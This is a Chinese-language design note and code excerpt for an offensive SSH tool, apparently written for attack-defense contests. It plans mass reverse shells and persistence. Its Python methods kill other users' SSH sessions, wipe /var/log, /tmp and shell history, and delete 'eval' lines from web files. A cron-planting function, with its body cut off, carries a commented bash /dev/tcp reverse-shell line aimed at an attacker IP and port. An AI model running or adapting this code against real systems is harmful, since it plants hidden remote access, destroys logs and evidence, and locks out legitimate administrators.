 ## sshcli

- ~~添加一个hosts对应username password的功能，可以不使用统一账号密码~~
  - ~~上述dict，可以存成文件，导入导出~~
- ~~添加config文件，设置代理，默认default值等~~ 
  - ~~代理目前的解决办法是：通过proxychains4配置代理使用~~
  - ~~代理可以使用 `--proxy`开启内部代理，配置代理文件或设置代理环境变量即可~~

- ~~传ip段和端口，划分hosts~~
- ~~添加通过密钥登录功能~~
- 写定时任务
- 反弹shell，指定端口范围类似 ：[1337, 4444, 10001-20000, 20001-30000]
  - 若能指定ip列表，和对应的端口列表最好，类似：{ip1:  [......], ip2: [......]}
  - 执行后，将对应的host和接收的ip端口也一一对应，类似：{host1: "ip1:port1", host2: "ip2:port2"}
  - 上述两个dict，可以存成文件，导入导出
- 清理日志，历史记录等
- 断掉其他人连接的ssh，因为改密码后不会断ssh，所以可以断掉进程
- 具体功能，参考我golang写的shell server里的功能，一并移植
- 可以在**权限维持**，**隐藏操作、日志等**方面更多的提升自动化性和多样性



## listencli

- 配合sshcli使用。
- 用于批量指定端口范围，监听并管理反弹shell。
  - 具体问题是：如何像ssh一样建立一个持久化的conn，可以管理反弹shell。



## 参考

参考之前我写的工具功能

问：为什么之前写过而现在要重写？

答：

- 之前写的早了，很多东西不太熟练，代码风格不好，而且不易扩展。
- 之前是基于paramiko这个库写的，而且是独立连接攻击每个host，很慢不稳定。
- 而现在是基于asyncssh的异步连接，而且在程序运行时，会统一连接完成之后，再进行后续操作。
- 之前没有扩展成命令行，只能通过修改脚本来实现攻击，而现在是命令行交互。



```python
    def pkill_ssh(self, *, ssh, command: str = None, username) -> tuple[bytes, bytes]:

        if ssh is None:
            return b"", b"Exception: ssh is None."

        if username == "root":
            command = "pkill ssh -9" if command is None else command
            stdin, stdout, stderr = ssh.exec_command(command)
        else:
            command = "sudo pkill ssh -9" if command is None else command
            stdin, stdout, stderr = ssh.exec_command(command)
            stdin.write(self.new_passwd + '\n')

            out, err = stdout.read(), stderr.read()
            print(f"stdout: {out}")
            print(f"stderr: {err}")

            failed_string = b"sudo: no tty present and no askpass program specified\n"
            if failed_string in err:
                print(f"{failed_string.decode()}")
                command = "pkill ssh -9"
                stdin, stdout, stderr = ssh.exec_command(command)
                stdin.write(self.new_passwd + '\n')

        out, err = stdout.read(), stderr.read()

        # print(f"stdout: {out}")
        # print(f"stderr: {err}")

        return out, err
```



```python
    def clear_the_mark(self, *, ssh, command: str = None, username: str = None) -> tuple[bytes, bytes]:
        if ssh is None:
            return b"", b"Exception: ssh is None."

        if username is None and self.username is not None:
            username = self.username
        elif username is None and self.username is None:
            return b"", b"Exception: username and self.username is None."

        if command is None:
            if username == "root":
                command = """find /var/log -type f -print0 | xargs -0 -I {} sh -c 'echo " " > "{}"';"""
                command += "rm -rf /tmp/{*,.*};"
                command += "find /var/www/html -type f -print0 | xargs -0 sed -i '/eval/d';"
                command += "rm ~/.*history;"
                command += "history -c;"
                command += "history -w;"
                command += "history -c;"
                # command += "pkill ssh -9;"
            else:
                stdin, stdout, stderr = ssh.exec_command("sudo whoami")
                stdin.write(self.new_passwd + '\n')

                out, err = stdout.read(), stderr.read()
                if "root" in out or "root" in err:
                    command = """sudo find /var/log -type f -print0 | xargs -0 -I {} sh -c 'echo " " > "{}"';"""
                    command += "sudo rm -rf /tmp/{*,.*};"
                    command += "sudo find /var/www/html -type f -print0 | xargs -0 sed -i '/eval/d';"
                    command += "sudo rm ~/.*history;"
                    command += "sudo rm /root/.*history;"
                    command += "sudo history -c;"
                    command += "sudo history -w;"
                    command += "sudo history -c;"
                    # command += "sudo pkill ssh -9;"
                else:
                    command = """find /var/log -type f -print0 | xargs -0 -I {} sh -c 'echo " " > "{}"';"""
                    command += "rm -rf /tmp/{*,.*};"
                    command += "find /var/www/html -type f -print0 | xargs -0 sed -i '/eval/d';"
                    command += "rm ~/.*history;"
                    command += "history -c;"
                    command += "history -w;"
                    command += "history -c;"
                    # command += "pkill ssh -9;"

        # print(f"{command = }")
        stdin, stdout, stderr = ssh.exec_command(command)
        out, err = stdout.read(), stderr.read()

        # print(f"stdout: {out}")
        # print(f"stderr: {err}")

        return out, err

    def rebound_shell_to_crontab(self, *, ssh, command: str = None, username: str = None,
                                 is_ubuntu: bool = True, is_system_level: bool = True,
                                 attacker_ip: str, attacker_port: int, is_tcp: bool = True,
                                 planned_time: int = 1) -> tuple[bytes, bytes]:
        if ssh is None:
            return b"", b"Exception: ssh is None."

        if username is None and self.username is not None:
            username = self.username
        elif username is None and self.username is None:
            return b"", b"Exception: username and self.username is None."

        if attacker_ip is None or attacker_port is None:
            return b"", b"Exception: The ip and port of the attack aircraft are missing."

        method = "tcp" if is_tcp else "udp"

        ubuntu_crontab = "crontabs/" if is_ubuntu else ""
        crontab_path = "/etc/crontab" if is_system_level else f"/var/spool/cron/{ubuntu_crontab}{username}"
        need_user_string = f"{username} " if is_system_level else ""

        # f"""echo '*/{planned_time} * * * * root bash -c "bash -i >& /dev/{method}/{attacker_ip}/{attacker_port} 0>&1"' >> /etc/crontab"""
        # 分、时、日、月、周

        # 'echo \'*/1 * * * * root bash -c "bash -i >& /dev/tcp/192.168.75.136/4444 0>&1"\' >> /etc/crontab;'
        # */1 * * * * root echo test > /root/tmp/1.txt
```

